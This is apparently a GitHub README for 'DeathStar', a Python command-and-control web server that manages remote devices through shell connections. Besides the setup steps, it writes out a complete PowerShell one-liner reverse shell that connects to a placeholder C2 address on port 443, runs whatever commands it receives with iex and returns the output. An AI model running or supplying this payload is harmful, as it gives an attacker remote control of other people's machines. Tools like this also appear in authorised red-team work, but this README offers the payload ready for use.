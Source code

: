 # DeathStar
Python webserver that receives shell connections from remote devices. 

Remote devices can be managed from the DeathStar webpage.

# Web page
<img width="991" alt="Screenshot 2024-12-21 at 12 46 55 AM" src="https://github.com/user-attachments/assets/6a6addfc-2875-47ff-bb39-ac332fa91f11" />

# Download DeathStar

```git clone github.com/bwithe/deathstar```

# Web C2 server 
1. Start the server
    - `python3 deathstar.py`

2. Open link in web browser
    - `firefox 127.0.0.1:8000`

3. Modify `<DEATHSTAR_IP>` in `client.py`

4. Have CLIENT connect to C2
    - Linux / MacOS
      - `python3 client.py`
    - Windows
        - `powershell -nop -c "$c=New-Object System.Net.Sockets.TCPClient('<DEATHSTAR_IP>',443);$s=$c.GetStream();$s.Write([byte[]](@(0x0A)),0,1);while($true){$b=[byte[]]::new(1024);$r=$s.Read($b,0,1024);$t=[text.encoding]::ASCII.GetString($b,0,$r).Trim();if($t -eq 'die'){exit};if($t -eq 'hostname'){$o=$env:COMPUTERNAME}elseif($t -eq 'whoami'){$o=$env:USERNAME}else{$o=iex $t 2>&1|Out-String};$o=$o.Trim()+[char]10;$d=[text.encoding]::ASCII.GetBytes($o);$s.Write($d,0,$d.Length)}"`
